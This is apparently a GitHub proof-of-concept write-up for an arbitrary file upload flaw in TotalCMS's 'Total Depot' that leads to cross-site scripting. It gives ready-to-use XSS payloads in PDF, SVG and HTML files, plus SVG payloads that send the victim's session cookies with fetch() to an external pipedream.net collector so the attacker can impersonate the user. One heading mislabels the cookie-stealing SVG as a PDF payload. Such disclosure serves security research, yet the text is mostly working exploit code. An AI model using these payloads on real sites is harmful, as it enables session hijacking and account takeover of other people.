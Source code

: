 # TotalCMS Arbitrary File Upload - XSS and steal cookies

## Author: (Sergio)

**Description:** TotalCMS is affected by Arbitrary File Upload - XSS vulnerability which allows Cross-Site Scriting (XSS) and also stealing session cookies

**Attack Vectors:** A vulnerability in "Total Depot" file upload sanitation allows you to upload a PDF / SVG /HTML file with hidden alert Cross-Site scripting (XSS) and steal the user cookies.

---

I am going to do 2 PoCS:
### - POC 1: Cross-Site scripting (XSS) PDF / SVG and HTML files

### - POC 2: Theft of user cookies and forwarding to an external server to intercept them and impersonate the user.


We start with the first PoC:

### POC 1: Cross-Site scripting (XSS) PDF / SVG and HTML files


When logging into the admin panel (https://www.totalcms.co/demo/total-cms/admin/), we will go to the "Total Depot" off the Administration Site and we upload the PDF/ SVG/ and HTML files with the hidden XSS.


There is the payloads:

### XSS PDF Payload:

It is an XSS payload generated with the JS2PDFInjector tool and a js payload that contains the following content:

```js
app.alert("XSS");
```

### SVG Payload:

```js
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
      alert(document.location);
   </script>
</svg>
```

### HTML Payload:

```js
<html>
	<script>
		alert(document.cookie);
	</script>
</html>
```


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/59567372-3336-4efd-aa24-2293ee2018c3)



![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/bfbddc70-9021-4fdb-9ed5-63eed29f25ce)


Once uploaded, if we click on the link we can see the path where they are stored:

![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/eedf4cdb-6401-4e64-8cab-479f9cedfcec)


PATH:


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/fc975779-4e50-4408-8947-42927049faf1)


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/9dec0ba5-17e9-4ddb-b917-2657b1ee21ed)


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/8a1be3fe-bbb8-47e3-8d4f-5933df2af82a)



And this is the result with the Cross-Site Scripting (XSS) of the 3 types of files and with the user's cookies:


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/f5ef6c07-c3ee-44fd-b999-266a654d8d29)


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/ce05700f-1dda-4275-a40a-1944bef4bb36)


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/8e84bc6e-e5f0-43b5-9f63-b93a41167baa)



We continue with the second PoC:


### - POC 2: Theft of user cookies and forwarding to an external server to intercept them and impersonate the user.

We perform a test to see if we have communication with an external server.


There is the payload:

```js
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC
"-//W3C//DTD SVG 1.1//EN"
"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="200"        
height="200"        
zoomAndPan="disable"        
xmlns="http://www.w3.org/2000/svg"        
xmlns:xlink="http://www.w3.org/1999/xlink"        
xml:space="preserve">
<!-- Script linked from the outside-->     
<script xlink:href="https://enbjn0l9vbowi.x.pipedream.net/" />     
<script>       
//<![CDATA[         
alert("XSS");       
]]>     
</script>   
</svg>
```

![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/eaa232df-c43d-48a7-a75a-653b86f55f9f)


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/ffd7cced-e6a5-4034-ace5-8e2729523f85)


As we see in the pipedream Request, we have obtained the request correctly.


We modify the payload to steal cookies and send them to the pipedream Request, so that we can impersonate the user.
There is the payload:

```js
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC
"-//W3C//DTD SVG 1.1//EN"
"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="200"        
height="200"        
zoomAndPan="disable"        
xmlns="http://www.w3.org/2000/svg"        
xmlns:xlink="http://www.w3.org/1999/xlink"        
xml:space="preserve">
<!-- Script linked from the outside-->     
<script>
  fetch('https://enbjn0l9vbowi.x.pipedream.net/', {
  method: 'POST',
  mode: 'no-cors',
  body: document.cookie
  });
</script>   
</svg>
```

![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/f4ac2d48-f957-4c5d-a173-053ba3097aec)


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/278638ac-2794-4c88-a165-01914e18d449)


As we see in the image, we have correctly obtained the user's session cookies.








There is the payloads:

### XSS PDF Payload:

It is an XSS payload generated with the JS2PDFInjector tool and a js payload that contains the following content:

```js
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC
"-//W3C//DTD SVG 1.1//EN"
"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="200"        
height="200"        
zoomAndPan="disable"        
xmlns="http://www.w3.org/2000/svg"        
xmlns:xlink="http://www.w3.org/1999/xlink"        
xml:space="preserve">
<!-- Script linked from the outside-->     
<script>
  fetch('https://enbjn0l9vbowi.x.pipedream.net/', {
  method: 'POST',
  mode: 'no-cors',
  body: document.cookie
  });
</script>   
</svg>
```


We upload the file to the server as I explained previously and execute it:

![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/4ee039ee-a797-4024-b959-2e5623f5c2a9)












</br>

### Additional Information:
[http://www.cmsmadesimple.org/](https://www.totalcms.co/)

https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html
